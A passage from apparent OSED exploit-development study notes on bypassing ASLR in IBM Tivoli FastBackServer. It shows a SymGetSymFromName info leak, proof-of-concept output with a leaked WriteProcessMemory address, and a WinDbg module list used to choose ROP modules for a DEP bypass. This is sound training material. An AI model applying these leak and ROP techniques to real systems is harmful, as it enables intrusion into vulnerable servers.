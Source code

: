 However, in this ASLR series we won't use the base module for the ASLR bypass, and we will try another type of ASLR bypass.
Also, the base module has null bytes at the start, which are badchars for our exploit.

# Info leak based ASLR
We will try to leak the base address of any of the modules.
This is normally done by exploiting a logical vulnerability or through memory corruption.

Our approach here will be to exploit a logical vulnerability in the application.
**Note: We could also find useful information more quickly by exploring the Win32 APIs imported by the application. If an imported API function could leak an info leak and such function is likely being used somewhere in the application, we may be able to exploit it. Most Win32 APIs do not possess a security risk but SOME OF THEM can be exploited to generate an info leak. Some of them include the DebugHelp APIs from Dbghelp.dll, which are used to resolve function addresses from symbol names. Another good API calls to search for are CreateToolhelp32Snapshot, EnumProcessModules, and C runtime APIs like fopen could be potentially used for leaking.**

In the OSED course we manage to leak via TCP the address of WriteProcessMemory by interacting with the SymGetSymFromName Windows API call. By reversing the application, we find that, by sending certain payload, we manage to leak any address of any library via TCP:
```
 /bin/python /home/kali/Documents/osed/aslr02_poc.py
b'\x00\x00\x00\x9eXpressServer: SymbolOperation \n------------------------------- \nValue of [WriteProcessMemory] is: \n\nAddress is: 0x76FA3AD0 \nFlags are: 0x207 \nSize is : 0x20 \n'
Leaked address = 0x76fa3ad0 
[+] Packet sent
```

This leak provides a direct ASLR bypass by resolving and returning the address of any exported function. 
Given that we have the mapped address of WriteProcessMemory, we can also know the base address of kernel32.dll (just by doing some mathematical operations), meaning that we could use ROP again inside kernel32.dll.
**Note: We will not do this as using ROP gadgets (memory address) from kernel32.dll is not very feasible for real exploits, as every monthly update changes kernel32.dll a little bit and that will displace our ROP chain, making our exploit dependant on the OS version. Remember that we want a very portable exploit.**

We can create a better exploit by leaking the address of a function from one of the IBM modules shipped with FastBackServer, meaning our exploit will only be dependent on the version of Tivoli.
We will locate a pointer to an IBM module that we can use for ROP gadgets to bypass DEP. 

# Searching our vulnerable module
Let's enumerate the modules used by the program and also the routes:
```
0:078> lm f
start    end        module name
001b0000 001ed000   SNFS     C:\Program Files\Tivoli\TSM\FastBack\server\SNFS.dll
00400000 00c0c000   FastBackServer C:\Program Files\Tivoli\TSM\FastBack\server\FastBackServer.exe
00ce0000 00d57000   CSFTPAV6 C:\Program Files\Tivoli\TSM\FastBack\server\CSFTPAV6.DLL
00d60000 00d8d000   libcclog C:\Program Files\Tivoli\TSM\FastBack\server\libcclog.dll
01190000 011c7000   CSNCDAV6 C:\Program Files\Tivoli\TSM\FastBack\server\CSNCDAV6.DLL
011d0000 01202000   CSMTPAV6 C:\Program Files\Tivoli\TSM\FastBack\server\CSMTPAV6.DLL
01210000 01243000   snclientapi C:\Program Files\Tivoli\TSM\FastBack\server\snclientapi.dll
01520000 01562000   NLS      C:\Program Files\Tivoli\TSM\FastBack\Common\NLS.dll
01590000 015bb000   gsk8iccs C:\Program Files\ibm\gsk8\lib\gsk8iccs.dll
01860000 0189a000   icclib019 C:\Program Files\ibm\gsk8\lib\N\icc\icclib\icclib019.dll
01a50000 01b40000   libeay32IBM019 C:\Program Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll
64eb0000 64f53000   MSVCR90  C:\Windows\WinSxS\x86_microsoft.vc90.crt_1fc8b3b9a1e18e3b_9.0.30729.9625_none_508ef7e4bcbbe589\MSVCR90.dll
66380000 663b0000   IfsUtil  C:\Windows\SYSTEM32\IfsUtil.dll
663b0000 663d7000   ulib     C:\Windows\SYSTEM32\ulib.dll
66b50000 66b5e000   fmifs    C:\Windows\SYSTEM32\fmifs.dll
67010000 67028000   ntlanman C:\Windows\System32\ntlanman.dll
```